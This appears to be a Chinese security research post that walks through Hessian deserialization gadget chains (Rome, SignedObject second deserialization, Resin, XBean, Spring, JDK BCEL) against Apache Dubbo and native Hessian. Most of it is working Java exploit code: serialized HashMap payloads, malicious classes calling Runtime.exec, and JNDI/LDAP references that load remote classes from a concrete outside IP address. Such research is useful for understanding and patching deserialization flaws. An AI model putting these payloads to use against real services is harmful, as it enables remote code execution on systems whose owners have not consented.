










Hessian 反序列化 Gadgets 一、Hessian反序列化流程 这里简单描述一下Hessian的反序列化流程。
定义两个接口：Common和Inner
1 2 3 4 5 package org.apache.dubbo.samples.basic.api; public interface Common { String sayHello(String name); }
1 2 3 4 5 6 package org.apache.dubbo.samples.basic.api; public interface Inner { String sayHello(String name); }
两个实现类：HessianObject和InnerObject
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 package org.apache.dubbo.samples.basic.impl; import org.apache.dubbo.samples.basic.api.Common; import org.apache.dubbo.samples.basic.api.Inner; import java.io.Serializable; public class HessianObject implements Common,Serializable { private String name; private Inner inner; public HessianObject(String name, Inner inner) { this.name = name; this.inner = inner; } public String getName() { return name; } public void setName(String name) { this.name = name; } public Inner getInner() { return inner; } public void setInner(Inner inner) { this.inner = inner; } public String sayHello(String name){ System.out.println("outter say"); return "hello!"; } @Override public String toString() { return "HessianObject{" + "name='" + name + '\'' + ", inner=" + inner + '}'; } }
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 package org.apache.dubbo.samples.basic.impl; import org.apache.dubbo.samples.basic.api.Inner; import java.io.Serializable; public class InnerObject implements Inner,Serializable{ private String innerName; public String sayHello(String name){ System.out.println("inner say"); return "inner!"; } public String getInnerName() { return innerName; } public void setInnerName(String innerName) { this.innerName = innerName; } @Override public String toString() { return "InnerObject{" + "innerName='" + innerName + '\'' + '}'; } }
实例化HessianObject对象后将其序列化：
1 2 3 4 5 6 7 8 // 实例化HessianObject对象 InnerObject innerObject = new InnerObject(); innerObject.setInnerName("inner_m1sn0w"); HessianObject hessianObject = new HessianObject("m1sn0w",innerObject); // 序列化对象后保存到文件中 HessianOutput hessianOutput = new HessianOutput(new FileOutputStream("/tmp/hessian.class")); hessianOutput.writeObject(hessianObject);
最后生成的文件内容如下：

在Hessian进行反序列化的过程中，会取出其中的二进制字符进行相应的处理。以上面为例，处理逻辑如下：
1、第一个字符M用来表示tag，hessian根据这个值寻找对应的处理逻辑。后面的t控制流程处理，依据后面的两个字节获取type长度。（简单描述就是Mt用来标识一个对象，后面两个字符通过运算获取一个长度）
2、根据长度，获取到后面的类的类名：org.apache.dubbo.samples.basic.impl.HessianObject
3、获取类名之后，底层逻辑会通过反射实例化类，并获取这个类中的字段值。
4、接下来处理S，其实也就是字段名，后面两个..表示长度，获取inner字段值。然后Mt 又开始解析对象，最后给inner赋值。
5、迭代处理完成之后，获取z字符，表示当前类对应的对象实例化完成，后面继续解析name字符，赋值为m1sn0w后获取z字符结束。
（源码比较简单，也容易理解）
Hessian在进行反序列化的时候，并不需要具体类实现Serializable接口。只需要在进行序列化数据生成的时候，设置setAllowNonSerializable(true)即可。（不论是否实现Serializable接口，最后生成的二进制数据是完全一样的）
1 2 3 4 5 6 7 8 9 10 11 12 13 # Dubbo Hessian设置如下 HessianOutput hessianOutput = new HessianOutput(new FileOutputStream("/tmp/hessian.class")); hessianOutput.findSerializerFactory().setAllowNonSerializable(true); hessianOutput.writeObject(hessianObject); # 原生Hessian设置如下 ByteArrayOutputStream bos = new ByteArrayOutputStream(); AbstractHessianOutput out = new HessianOutput(bos); SerializerFactory serializerFactory = new SerializerFactory(); serializerFactory.setAllowNonSerializable(true); out.setSerializerFactory(serializerFactory); out.writeObject(hashMap1); out.close();
二、Hessian反序列化Gadgets 其实简单跟一下Hessian反序列化的处理逻辑就会发现它和原生JDK的反序列化不同。（它不会调用重写的readObject方法）
Hessian在反序列化Map对象的时候，会依次反序列化其中的对象值，然后调用put方法还原Map对象。因此在实际构造Gadgets时候，都会利用hashmap的put方法作为入口，可以调用任意对象的hashCode方法或者equals方法。比较常见的Gadgets有如下几个：
（1）Rome Gadgets Rome这条链子比较短。触发点在ToStringBean的toString方法：

由于beanClass和obj是类的属性，在反序列化的时候可以当成可控值。这里的逻辑是调用某个对象的所有getter方法。这也就拓展了后半部分的利用方式。
同样，在EqualsBean的beanEquals方法中也会调用任意对象的getter方法。

简单看看Rome Gadgets的入口类，也就是ObjectBean：

这三个方法都可以调到上面所说的两个触发的地方。Hessian在反序列化HashMap的时候，会调用任意对象hashCode->toString方法。方便验证，自己写一个getter的恶意类：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 package org.apache.dubbo.samples.basic.impl; public class EvilGetter { private String name; public String getName() { try { Runtime.getRuntime().exec("open /System/Applications/Calculator.app"); }catch (Exception e){ System.out.println(e.toString()); } return name; } public void setName(String name) { this.name = name; } }
利用toString触发的调用栈如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 at org.example.EvilGetter.getName(EvilGetter.java:10) at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1) at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62) at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43) at java.lang.reflect.Method.invoke(Method.java:498) at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137) at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116) at com.sun.syndication.feed.impl.EqualsBean.beanHashCode(EqualsBean.java:193) at com.sun.syndication.feed.impl.ObjectBean.hashCode(ObjectBean.java:110) at java.util.HashMap.hash(HashMap.java:340) at java.util.HashMap.put(HashMap.java:613) at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114) at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:577) at com.caucho.hessian.io.HessianInput.readObject(HessianInput.java:1160) at org.example.Main.main(Main.java:31)
本地验证代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 EvilGetter evilGetter = new EvilGetter(); ToStringBean toStringBean = new ToStringBean(EvilGetter.class,evilGetter); ObjectBean objectBean = new ObjectBean(String.class,"123"); HashMap hashMap = new HashMap(); hashMap.put(objectBean,'a'); Class clazz = ObjectBean.class; Field field = clazz.getDeclaredField("_equalsBean"); field.setAccessible(true); field.set(objectBean,new EqualsBean(ToStringBean.class,toStringBean)); HessianOutput hessianOutput = new HessianOutput(new FileOutputStream("/tmp/hessian.class")); hessianOutput.writeObject(hashMap); HessianInput hessianInput = new HessianInput(new FileInputStream("/tmp/hessian.class")); hessianInput.readObject();
以上代码可以在原生的Hessian中运行，也就是如下maven坐标中的Hessian包：
1 2 3 4 5 <dependency> <groupId>com.caucho</groupId> <artifactId>hessian</artifactId> <version>4.0.66</version> </dependency>
如果使用Dubbo sample中的Hessian进行反序列化，会发现报错，抛出的异常信息为：
1 com.alibaba.com.caucho.hessian.io.HessianProtocolException: 'com.sun.syndication.feed.impl.ObjectBean' could not be instantiated
这是因为Dubbo封装的Hessian中，使用了JavaDeserializer来反序列化对象。它会根据类的构造方法去实例化一个对象。可以看看ObjectBean的构造方法：

它会走到new EqualsBean(beanClass,obj)这里：

在Hessian进行反序列化的时候，首先会实例化对象，此时传入的参数都是null。所以在Dubbo Hessian反序列化这个ObjectBean对象时，在初始化的时候会抛出异常，终止了后续的运行。原生的Hessian能够执行，是因为其使用的是unsafe.allocateInstance来实例化对象，这个方法仅通过Class就可以实例化对象，而不需要调用构造方法。
因此在Dubbo Hessian环境下，需要稍微改一下这条链子的入口，EqualsBean自己也存在hashCode方法，并且也会调用自己的beanHashCode，这样也就和前面一样了。最后构造的代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 EvilGetter evilGetter = new EvilGetter(); ToStringBean toStringBean = new ToStringBean(EvilGetter.class,evilGetter); EqualsBean equalsBean = new EqualsBean(String.class,"123"); HashMap hashMap = new HashMap(); hashMap.put(equalsBean,'a'); Class clazz = EqualsBean.class; Field field = clazz.getDeclaredField("_obj"); field.setAccessible(true); field.set(equalsBean,toStringBean); HessianOutput hessianOutput = new HessianOutput(new FileOutputStream("/tmp/hessian.class")); hessianOutput.findSerializerFactory().setAllowNonSerializable(true); hessianOutput.writeObject(hashMap); HessianInput hessianInput = new HessianInput(new FileInputStream("/tmp/hessian.class")); hessianInput.readObject();
后续的利用只需要修改EvilGetter对象就可以了。寻找一些getter就能触发的Gadgets，例如JdbcRowSetImpl:
1 2 3 4 String jndiUrl = "ldap://localhost:1389/obj"; JdbcRowSetImpl rs = new JdbcRowSetImpl(); rs.setDataSourceName(jndiUrl); rs.setMatchColumn("foo");
除此之外，UnixPrintService类中的一些getter方法可以直接命令执行。
（2）Rome 二次反序列化 Gadgets TemplatesImpl算是反序列化中的一条经典的链子。调用其getOutputProperties方法，最后可以加载任意字节码，达到RCE的目的。
了解了ROME链子后，会发现通过ROME可以调用TemplatesImpl的getOutputProperties。正常的构造如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 // TemplatesImpl byte[] code = ClassPool.getDefault().get("org.apache.dubbo.samples.basic.impl.EvilClass").toBytecode(); TemplatesImpl obj = new TemplatesImpl(); setFieldValue(obj, "_name", "1");; setFieldValue(obj,"_tfactory",new TransformerFactoryImpl()); setFieldValue(obj, "_bytecodes", new byte[][]{code}); // Rome Gadgets ToStringBean toStringBean = new ToStringBean(Templates.class,obj); EqualsBean equalsBean = new EqualsBean(String.class,"123"); HashMap hashMap = new HashMap(); hashMap.put(equalsBean,'a'); Class clazz = EqualsBean.class; Field field = clazz.getDeclaredField("_obj"); field.setAccessible(true); field.set(equalsBean,toStringBean); HessianOutput hessianOutput = new HessianOutput(new FileOutputStream("/tmp/hessian.class")); hessianOutput.findSerializerFactory().setAllowNonSerializable(true); hessianOutput.writeObject(hashMap); HessianInput hessianInput = new HessianInput(new FileInputStream("/tmp/hessian.class")); hessianInput.readObject();
构造的恶意类EvilClass如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 package org.apache.dubbo.samples.basic.impl; import com.sun.org.apache.xalan.internal.xsltc.DOM; import com.sun.org.apache.xalan.internal.xsltc.TransletException; import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet; import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator; import com.sun.org.apache.xml.internal.serializer.SerializationHandler; import java.io.IOException; public class EvilClass extends AbstractTranslet { public EvilClass(){ try { Runtime.getRuntime().exec("open /System/Applications/Calculator.app"); } catch (IOException ignored) { } } @Override public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { } @Override public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { } }
运行之后，会发现并没有执行命令。可以打断点到TemplatesImpl的getOutputProperties，会发现_tfactory字段值为null，终止了后面链的调用。为了排查这个问题，可以去看看TemplatesImpl的_tfactory这个字段。会发现它是一个transient，也就是说在序列化和反序列化的过程中，它是不参与的。
在原生的Java反序列化调用过程中，因为TemplatesImpl重写了readObject方法，导致在反序列化的过程中，会执行到如下代码：

这里给_tfactory赋值了。而在Hessian反序列化过程中，并没有这一环，导致了这一条链的终止。
为了解决这个问题，想到的一个办法就是寻找原生的Java反序列化，也就是常说到的二次序列化。可以关注到SignedObject这个类，其getObject正好满足了这个条件：

this.content是内部属性，可控。通过ROME链，调用到SignedObject的getObject，然后给this.content正常的反序列化数据即可。最后构造的Payload如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 // TemplatesImpl byte[] code = ClassPool.getDefault().get("org.example.EvilClass").toBytecode(); TemplatesImpl obj = new TemplatesImpl(); setFieldValue(obj, "_name", "1");; setFieldValue(obj,"_tfactory",new TransformerFactoryImpl()); setFieldValue(obj, "_bytecodes", new byte[][]{code}); ToStringBean toStringBean = new ToStringBean(Templates.class,obj); EqualsBean equalsBean = new EqualsBean(String.class,"123"); HashMap hashMap = new HashMap(); hashMap.put(equalsBean,'a'); setFieldValue(equalsBean,"_obj",toStringBean); // 二次序列化构造 KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA"); kpg.initialize(1024); KeyPair kp = kpg.generateKeyPair(); SignedObject signedObject = new SignedObject(hashMap, kp.getPrivate(), Signature.getInstance("DSA")); ToStringBean toStringBean1 = new ToStringBean(SignedObject.class,signedObject); EqualsBean equalsBean1 = new EqualsBean(String.class,"123"); HashMap hashMap1 = new HashMap(); hashMap1.put(equalsBean1,'a'); setFieldValue(equalsBean1,"_obj",toStringBean1); HessianOutput hessianOutput = new HessianOutput(new FileOutputStream("/tmp/hessian.class")); hessianOutput.writeObject(hashMap1); HessianInput hessianInput = new HessianInput(new FileInputStream("/tmp/hessian.class")); hessianInput.readObject();
在Dubbo Hessian中会报错，而原生的Hessian可以运行。主要是由于SignedObject构造方法中如果存在空的参数就会抛错。
（3）Resin Gadgets 该链的入口就是调用XString的equals方法。整个调用栈如下：
1 2 3 4 5 6 7 8 com.sun.org.apache.xpath.internal.objects.XString#equals com.caucho.naming.QName#toString ContinuationContext#composeName ContinuationContext#getTargetContext NamingManager#getContext NamingManager#getObjectInstance NamingManager#getObjectFactoryFromReference VersionHelper12#loadClass
整条链子比较短，代码也比较清晰。最后是利用URLClassLoader来远程加载类。不过在跟代码的时候，最后调用到loadClass存在一个条件：com.sun.jndi.ldap.object.trustURLCodebase需要设置为true，高版本JDK下该值默认为false。

这里主要记一下如何调用到XString#equals方法。前面分析过，Hessian在进行反序列化的时候，如果反序列化的对象是Hashmap，会调用其put方法。跟一下Hashmap的put方法，会执行putVal，在这个里面会校验key值，然后调用equals方法来进行比较。只不过这里想要调用到equals方法需要一些条件：

这里的逻辑很简单，当调用put方法向对象中插入的key的时候，先会计算插入对象的hashCode值，然后通过该值，计算原有的table中是否已经存储。这里想要调用到equals方法，需要满足的条件就是两个不同对象的hashCode值相同。
XString hashCode的计算方式：（其实这里就也是String类型的hashCode计算方式）
1 s[0]*31^(n-1) + s[1]*31^(n-2) + ... + s[n-1]
QName hashCode计算的方式：
1 2 3 4 int hashCode = 337; for(int i = this.size() - 1; i >= 0; --i) { hashCode = '\ufff1' * hashCode + this.get(i).hashCode(); }
在marshalsec源码中，提供了这个碰撞的函数：只需要向unhash 传入hashcode值，就会生成一个字符串，其hashcode值相同。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 public static String unhash ( int hash ) { int target = hash; StringBuilder answer = new StringBuilder(); if ( target < 0 ) { // String with hash of Integer.MIN_VALUE, 0x80000000 answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002"); if ( target == Integer.MIN_VALUE ) return answer.toString(); // Find target without sign bit set target = target & Integer.MAX_VALUE; } unhash0(answer, target); return answer.toString(); } private static void unhash0 ( StringBuilder partial, int target ) { int div = target / 31; int rem = target % 31; if ( div <= Character.MAX_VALUE ) { if ( div != 0 ) partial.append((char) div); partial.append((char) rem); } else { unhash0(partial, div); partial.append((char) rem); } }
最后构造的demo测试案例如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","false"); Class clazz = Class.forName("javax.naming.spi.ContinuationContext"); Constructor constructor = clazz.getDeclaredConstructor(CannotProceedException.class, Hashtable.class); constructor.setAccessible(true); CannotProceedException cannotProceedException = new CannotProceedException(); cannotProceedException.setResolvedObj(new Reference("123","m1sn0w","http://101.34.38.37/")); Hashtable hashtable = new Hashtable(); Context context = (Context) constructor.newInstance(cannotProceedException,hashtable); QName qName = new QName(context); ArrayList arrayList = new ArrayList(); arrayList.add("foo"); arrayList.add("bar"); setFieldValue(qName,"_items",arrayList); XString xString = new XString(unhash(qName.hashCode())); HashMap<Object, Object> s = new HashMap<>(); s.put(qName,"123"); s.put(xString,"!23"); HessianOutput hessianOutput = new HessianOutput(new FileOutputStream("/tmp/hessian.class")); hessianOutput.findSerializerFactory().setAllowNonSerializable(true); hessianOutput.writeObject(s); HessianInput hessianInput = new HessianInput(new FileInputStream("/tmp/hessian.class")); hessianInput.readObject();
在远端服务器上放置一个class，其静态方法执行命令即可。
（4）XBean Gadgets 依赖包：
1 2 3 4 5 <dependency> <groupId>org.apache.xbean</groupId> <artifactId>xbean-naming</artifactId> <version>4.5</version> </dependency>
和Resin类似，调用ContextUtil$ReadOnlyBinding，然后一系列处理后远程加载class。
1 2 3 4 5 6 7 8 9 10 11 12 loadClass:92, VersionHelper12 (com.sun.naming.internal) loadClass:101, VersionHelper12 (com.sun.naming.internal) loadClass:115, VersionHelper12 (com.sun.naming.internal) getObjectFactoryFromReference:163, NamingManager (javax.naming.spi) getObjectInstance:329, NamingManager (javax.naming.spi) resolve:73, ContextUtil (org.apache.xbean.naming.context) getObject:204, ContextUtil$ReadOnlyBinding (org.apache.xbean.naming.context) toString:192, Binding (javax.naming) equals:391, XString (com.sun.org.apache.xpath.internal.objects) putVal:636, HashMap (java.util) put:613, HashMap (java.util) main:27, XBeanGadgets (org.example)
这里最后的调用链和Resin类似，所以也需要开启com.sun.jndi.ldap.object.trustURLCodebase为true
（5）Spring Partially Comparable Advisor Holder Gadgets 最后调用的是SimpleJndiBeanFactory的getBeanl来进行JNDI。
1 2 3 String jndiUrl = "ldap://101.34.38.37:80"; SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory(); simpleJndiBeanFactory.getBean(jndiUrl);
该条链的调用栈如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 execute:90, JndiTemplate (org.springframework.jndi) lookup:152, JndiTemplate (org.springframework.jndi) lookup:179, JndiTemplate (org.springframework.jndi) lookup:95, JndiLocatorSupport (org.springframework.jndi) doGetSingleton:218, SimpleJndiBeanFactory (org.springframework.jndi.support) doGetType:226, SimpleJndiBeanFactory (org.springframework.jndi.support) getType:191, SimpleJndiBeanFactory (org.springframework.jndi.support) getOrder:127, BeanFactoryAspectInstanceFactory (org.springframework.aop.aspectj.annotation) getOrder:216, AbstractAspectJAdvice (org.springframework.aop.aspectj) getOrder:80, AspectJPointcutAdvisor (org.springframework.aop.aspectj) toString:151, AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder (org.springframework.aop.aspectj.autoproxy) equals:391, XString (com.sun.org.apache.xpath.internal.objects) equals:104, HotSwappableTargetSource (org.springframework.aop.target) putVal:636, HashMap (java.util) put:613, HashMap (java.util) readMap:114, MapDeserializer (com.caucho.hessian.io) readMap:538, SerializerFactory (com.caucho.hessian.io) readObject:1160, HessianInput (com.caucho.hessian.io)
还是通过XString的equals方法调用任意对象的toString方法。
（6）Spring Abstract Bean Factory Pointcut Advisor Gadgets 和上面那条链子相似：
1 2 3 4 5 6 7 8 9 doInContext:155, JndiTemplate$1 (org.springframework.jndi) execute:87, JndiTemplate (org.springframework.jndi) lookup:152, JndiTemplate (org.springframework.jndi) lookup:179, JndiTemplate (org.springframework.jndi) lookup:95, JndiLocatorSupport (org.springframework.jndi) doGetSingleton:218, SimpleJndiBeanFactory (org.springframework.jndi.support) getBean:112, SimpleJndiBeanFactory (org.springframework.jndi.support) getAdvice:109, AbstractBeanFactoryPointcutAdvisor (org.springframework.aop.support) equals:74, AbstractPointcutAdvisor (org.springframework.aop.support)
利用HashMap调用equals来触发。测试demo：
1 2 3 4 5 6 String jndiUrl = "ldap://101.34.38.37:80"; SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory(); DefaultBeanFactoryPointcutAdvisor pcadv = new DefaultBeanFactoryPointcutAdvisor(); pcadv.setBeanFactory(simpleJndiBeanFactory); pcadv.setAdviceBeanName(jndiUrl); pcadv.equals(new DefaultBeanFactoryPointcutAdvisor());
（7）JDK原生Gadgets JDK原生Gadgets的入口点是toString，所以实际利用的时候，需要配合Dubbo Hessian中的一些漏洞，例如：CVE-2021-43297。
该条Gadgets分为三部分：
sun.security.pkcs.PKCS9Attributes调用toString作为入口点SwingLazyValue.createValue调用任意对象的方法利用com.sun.org.apache.bcel.internal.util.JavaWrapper调用bcel加载器
PS：这里使用了bcel加载器，也就是com.sun.org.apache.bcel.internal.util.ClassLoader。高版本的jdk移除了这个类，所以利用不了。
BCEL加载器RCE Gadgets 第一部分和第二部分的连接使用Hashtable的set方法。整个调用链不长，调用栈如下所示：
